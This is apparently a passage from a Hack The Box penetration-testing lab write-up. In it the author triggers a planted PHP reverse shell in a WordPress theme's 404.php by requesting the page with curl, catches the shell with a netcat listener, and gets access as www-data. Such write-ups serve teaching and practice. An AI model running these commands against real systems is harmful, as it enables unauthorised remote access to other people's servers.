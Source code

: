 ![](attachments/aen_21.png)

I can fetch the page with `curl` command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php
```

And I was waiting on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.67.59] 60858
Linux 7635d7d77b7b 5.4.0-113-generic #127-Ubuntu SMP Wed May 18 14:30:56 UTC 2022 x86_64 GNU/Linux
 18:16:29 up 44 min,  0 users,  load average: 0.02, 0.14, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Here I opened a shell!
I checked its IP address with `hostname -I` command to figure out if it has internal network interface.
